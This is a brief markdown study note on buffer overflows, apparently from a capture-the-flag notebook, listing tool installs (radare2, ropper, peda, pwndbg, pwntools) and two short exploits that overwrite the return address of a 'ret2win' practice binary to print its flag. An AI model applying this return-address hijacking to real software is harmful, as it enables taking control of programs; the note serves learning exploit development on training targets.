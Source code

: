 # Buffer Overflows


## Security level



## Tools install 


### radare2 

```
sudo apt install radare2
```

```
r2 ret2win
> aaaa         : analyse binary
> afl          : function list
> pdf @ main   : disassemble function
```


### ropper 

```
apt install python3-pip
pip install ropper
```

### ghydra 



### gdb-peda

```
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
```
```
pattern_create 200
pattern offset AA0AAFAAb
r

```

### gdb-pwndbg

pwndbg
Built as a successor to frameworks like PEDA and GEF
pwndbg is a plugin for GDB that greatly enhances its exploit development capability. 
https://github.com/pwndbg/pwndbg
```
git clone https://github.com/pwndbg/pwndbg
cd pwndbg
./setup.sh
```


### python3 pwn 

```
apt-get install python2.7 python-pip python-dev git libssl-dev libffi-dev build-essential
pip install --upgrade pip
pip install --upgrade pwntools
```

```
from pwn import *
elf = context.binary = ELF('ret2win') 
info("%#x target", elf.symbols.ret2win) 

io = process(elf.path)
ret2win = p64(elf.symbols.ret2win)
payload = "A"*40 + ret2win

io.sendline(payload)
io.recvuntil("Here's your flag:") 
flag = io.recvline()
success(flag)
```

### bash 

```
python -c 'print "\x90"*40 + "\x11\x08\x40\x00\x00\x00\x00\x00\x00"' | ./ret2win
```

